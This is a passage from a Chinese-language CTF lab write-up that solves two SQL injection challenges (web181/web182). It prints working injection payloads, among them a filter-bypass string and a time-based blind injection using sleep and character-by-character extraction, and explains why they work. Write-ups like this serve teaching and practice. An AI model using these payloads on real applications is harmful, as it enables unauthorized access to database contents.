 所以这里我们可以通过

```lisp
-1'||username='flag
```

来获取flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/d402ffc2d0a51a98c0db763c77bcd029.png" alt="" style="max-height:222px; box-sizing:content-box;" />


## web182  通过id查询 获取flag 和上题类似

一样的payload 直接打



<img src="https://i-blog.csdnimg.cn/blog_migrate/f0cb3ac86ccfb43fc8db52a74fd81a1c.png" alt="" style="max-height:297px; box-sizing:content-box;" />


失败了 过滤了flag 所以我们在之前爆破可以知道 id为 26

```cobol
0'||id='26
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5abb05e05932dae6bf1446ef2e709d85.png" alt="" style="max-height:295px; box-sizing:content-box;" />
看了文章 还有一个时间盲注的payload

```cobol
-1'or(id=26)and(if(ascii(mid(password,1,1))>1,sleep(2),1))and'1
 
来解释一下
 
 
0 or 1 and 1 and '1 ======1

0 or 1 and 0 and '1 ======0
 
 
这里就可以实现盲注 但是没有
 
但是在测试的 时候 发现
 
-1'or(id=26)and(if(ascii(mid(password,1,1))>1,1,0))and'1 这个也可以直接爆出flag
 
这里要注意 if(表达式,1,0) 这里的1 是如果表达式真 就输出 1 否则输出 0
 
所以我们前面 >1 这个时候就可以输出flag
 
但是好多此一举啊 因为我们可以直接获取flag 何必盲注呢
```

但是使用二分法 也是很快就是了
